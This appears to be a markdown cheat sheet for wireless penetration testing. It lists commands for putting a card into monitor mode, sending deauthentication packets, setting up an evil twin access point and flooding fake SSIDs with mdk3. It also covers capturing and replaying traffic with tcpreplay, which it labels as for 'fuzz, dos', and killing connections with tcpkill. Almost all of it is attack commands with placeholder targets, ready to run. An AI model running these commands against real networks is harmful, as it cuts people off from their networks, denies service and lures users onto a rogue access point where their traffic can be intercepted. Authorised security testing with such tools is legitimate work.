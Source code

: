 Wireless Pentesting
===================

note: wireless interface must be in promiscuous mode

	apt-get install wireless-tools
	iwconfig   # shows all network devices and their modes

#### Packet Captures
	
	apt-get install aircrack-ng
	ifconfig wlan0 up              # brings up wireless card
	airmon-ng start wlan0          # creates interface on top of the card
	ifconfig                       # ensure interface mon0 has been created
	
	apt-get install wireshark
	wireshark & 

Click capture interfaces
Click start on mon0


#### Deauthentication Packets

    aireplay-ng --deauth 0 -a [AP_MAC] -c [CLIENT_MAC] mon0 
	# mac address of SSID is found in frame control as destination


#### Evil Twin attack

	airmon-ng start wlan0
	airodump-ng mon0    # find the Access point
	airbase-ng -a AA:AA:AA:AA:AA:AA -e public -c 11 mon0 
	                   	  # at0 is created as faux interface
	ifconfig at0 up 
	aireplay-ng --deauth 0 -a [AP_MAC]  mon0

#### MDK (murderdeathkill)

	mdk3 mon0 b -n pwnsauce   # creates SSID 'pwnsauce' on mon0 broadcast on all channels


#### Packet Manipulation

	tcpdump -i eth0 -XX -w dump.pcap                  # capture packets in ascii and hex 
	tcpdump -nvvX -s0 -i  eth0 tcp portrange 22-23    # capture tcp traffic on ports 22/23

	dumpcap -I eth0 -a duration:30 -w file dump.pcap  # capture packets for 30 and dump to file

	file2cable -i eth0 -f dump.pcap                   # replay pcap from file

	apt-get install tcpreplay
	tcpreplay --topspeed --loop=0 --intf=eth0 dump.pcap --mbps=10|100|1000   
	                                                    # fuzz, dos from file

#### tcpkill

	apt-get install dnsiff
	tcpkill -i eth0 port 21     # kill outgoing ftp connection
	tcpkill host [IP_ADDRESS]   # kill packets arriving from or leaving ip address


